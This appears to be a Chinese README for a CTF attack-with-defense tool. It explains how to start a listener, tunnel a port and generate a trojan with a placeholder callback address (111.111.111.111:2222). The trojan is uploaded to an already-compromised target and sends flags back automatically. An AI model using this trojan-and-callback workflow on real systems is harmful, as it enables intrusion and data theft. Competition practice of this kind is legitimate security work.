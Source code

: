 # 欢迎使用鑫启网安AWD自动获取flag工具
### 环境准备
首先，确保你的系统为linux的某种发行版
以ubuntu为例
通过以下命令安装python3
```sh
sudo apt-get install python3
```
通过以下命令安装gcc
```sh
sudo apt install build-essential
```
### 用法
首先，确保拿到对方的shell权限
在本地攻击机环境下运行以下命令，以开始tcp监听
```sh
python3 flag_handler.py
```
而后，在本地攻击机（linux）的环境下，使用flag_capture.py生成木马
在本地开启内网穿透，穿透12346端口（内网穿透的开启方法不做赘述）
假设在内网穿透的端口，将本地的127.0.0.1:12346穿透到111.111.111.111:2222，那么你应该以以下命令生成木马
```sh
python3 flag_capture.py 111.111.111.111 2222
```
接下来，在根目录下，你会得到一个名为时间戳的文件
将此文件上传至已取得shell权限的靶机，而后运行，即可在flag_handler.py的shell中自动获取flag
注：当前版本还不能全自动提交flag，等我下次打AWD的时候去抓个包看看怎么改request